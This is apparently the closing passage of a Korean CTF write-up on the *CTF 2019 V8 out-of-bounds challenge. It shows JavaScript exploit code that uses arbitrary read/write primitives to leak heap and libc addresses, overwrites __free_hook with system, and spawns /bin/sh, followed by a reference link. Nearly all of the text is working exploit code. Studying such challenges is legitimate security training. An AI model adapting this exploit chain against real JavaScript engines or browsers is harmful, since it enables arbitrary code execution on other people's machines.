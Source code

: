 ```jsx
*/

heap_ptr = aar(addrof(arb_rw_arr)) - 0x2ec0n
heap = aar(heap_ptr)
libc_ptr = heap + 0xf8n
libc = aar(libc_ptr)
libc_base = libc - 0x3e82a0n
free_hook = libc_base + 0x3ed8e8n
system = libc_base + 0x4f4e0n

print("heap: " + hex(heap))
print("libc_ptr: " + hex(libc_ptr))
print("libc: " + hex(libc))
print("libc_base: " + hex(libc_base))
print("free_hook: " + hex(free_hook))
print("system: " + hex(system))

var buf = new ArrayBuffer(0x8)
var dv = new DataView(buf)
aaw_init(addrof(buf) + 0x20n, free_hook)
dv.setBigUint64(0, system, true)

console.log("/bin/sh");
```

## 레퍼런스

- https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/
